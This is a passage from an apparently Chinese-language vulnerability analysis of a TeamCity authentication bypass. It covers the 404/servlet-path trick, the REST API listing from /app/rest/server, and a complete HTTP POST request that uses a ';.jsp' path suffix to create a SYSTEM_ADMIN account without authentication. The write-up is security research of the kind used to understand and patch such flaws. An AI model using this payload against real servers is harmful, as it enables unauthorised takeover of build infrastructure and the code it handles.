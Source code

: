 整个漏洞利用过程大概就是这样子

上面我使用的路径是 `/login.html`，在网传的 payload 中都是通过访问一个不存在的路径触发 404，然后 servlet 路径为 / 404.html ，进而使 isControllerRequestWithViewName 为 true

![image-20240309180758301](assets/1710740090-2097038c38fcbf5fc72fbcef0a88251e.png)

## 漏洞利用

漏洞利用主要看的是 API 的功能，上面访问的 `/app/rest/server` 的返回了很多 API

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>  
<server version="2023.11.3 (build 147512)" versionMajor="2023" versionMinor="11" startTime="20240309T055615+0000" currentTime="20240309T082334+0000" buildNumber="147512" buildDate="20240129T000000+0000" internalId="9ef67929-e0cc-4182-b4b0-34d4ec728f42" role="main_node" webUrl="http://localhost:8111" artifactsUrl=""\>  
    <projects href="/app/rest/projects"/>  
    <vcsRoots href="/app/rest/vcs-roots"/>  
    <builds href="/app/rest/builds"/>  
    <users href="/app/rest/users"/>  
    <userGroups href="/app/rest/userGroups"/>  
    <agents href="/app/rest/agents"/>  
    <buildQueue href="/app/rest/buildQueue"/>  
    <agentPools href="/app/rest/agentPools"/>  
    <investigations href="/app/rest/investigations"/>  
    <mutes href="/app/rest/mutes"/>  
    <nodes href="/app/rest/server/nodes"/>  
</server>
```

添加管理员用户：

```http
POST /xxx?jsp=/app/rest/users;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: */*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate  
​  
{"username": "用户名", "password": "密码", "email": "test@n.com", "roles": {"role": \[{"roleId": "SYSTEM\_ADMIN", "scope": "g"}\]}}
```
